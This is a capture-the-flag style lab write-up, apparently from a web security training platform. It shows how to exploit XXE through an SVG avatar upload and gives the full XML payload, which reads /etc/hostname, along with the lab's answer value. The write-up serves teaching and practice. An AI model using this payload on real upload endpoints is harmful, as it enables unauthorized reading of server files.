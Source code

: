 
### Exploiting XXE via image file upload : PRACTITIONER

---

> Visiting any post and uploading a comment.

![](lab9-1.png)

> Intercept the `POST` request with BURPSUITE PROXY HTTP history on.

![](lab9-2.png)

> We can try to change the contet of the file, and change it to an `SVG` file to be able to support XML and add.

> Adding the payload.
```XML
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">

<text font-size="16" x="0" y="16">&xxe;</text>

</svg>
```

> The first 2 lines are used to instantiate XML.
> We add the entity `xxe` to hold the file contents, and call it using `&xxe;` in the `text` tag.
> The remaining lines are used to create the image and set its size.

![](lab9-3.png)

> Following the redirections and then going to the comments page, we see that one of the avatars has text.

![](lab9-4.png)

> Opening the image in a new tab and copying the secret.

![](lab9-5.png)

```
7198d31ba274
```

> Submitting that completes the lab.

---
